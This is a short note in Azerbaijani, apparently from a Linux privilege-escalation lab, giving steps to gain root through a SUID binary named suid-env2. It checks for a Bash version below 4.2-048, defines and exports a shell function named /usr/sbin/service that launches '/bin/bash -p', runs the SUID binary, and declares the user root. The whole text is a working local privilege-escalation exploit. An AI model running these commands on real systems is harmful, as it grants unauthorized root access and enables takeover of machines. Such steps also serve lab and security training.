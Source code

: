 ## ilk olaraq bash -version verdikden sonra bashin versiyasi Bash <4.2-048  bundan asaqidirsa
    function /usr/sbin/service { /bin/bash -p; }
    export -f /usr/sbin/service

## daha sonra env2 runlayiriq    
    /usr/local/bin/suid-env2
## ve artiq ROOTSAN    
